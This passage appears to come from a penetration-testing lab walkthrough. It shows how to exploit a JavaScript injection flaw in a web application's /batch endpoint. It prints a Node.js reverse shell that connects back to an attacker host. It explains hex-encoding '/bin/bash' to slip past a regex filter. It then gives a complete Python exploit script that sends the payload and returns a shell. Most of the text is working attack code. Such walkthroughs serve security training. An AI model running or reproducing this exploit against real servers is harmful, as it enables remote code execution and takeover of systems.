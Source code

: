 ## Solving The Truncation Caveat
We can start by updating our script, with the following JavaScript reverse shell:

```JavaScript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(5555, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

We will be using this reverse shell, however, it will be in our own python script, and executing the reverse shell.
However, we run into the following error:

```JSON
{"statusCode":500,"error":"Internal Server Error","message":"An internal server error occurred"}
```

To review our error, we can simply add a debugging statement, right before our eval function so we know what's getting executed on the server:

![](../../03.%20Images/t3-ss13.png)

Reviewing the error:

![](../../03.%20Images/t3-ss14.png)

We see that the our complete injection is being truncated, due to the "/bin/bash" slashes.
We can solve this by using "\\\\x2fbin\\\\x2fbash" instead of "/bin/bash", as hex encoded characters are allowed in JavaScript, and thus bypass the regex parsing restrictions.

Our final script will look like as follows:

```python
import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\\\x2fbin\\\\x2fbash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

## The Shell
Executing our python script with the right arguments:

![](../../03.%20Images/t3-ss15.png)

We get a shell back:

![](../../03.%20Images/t3-ss16.png)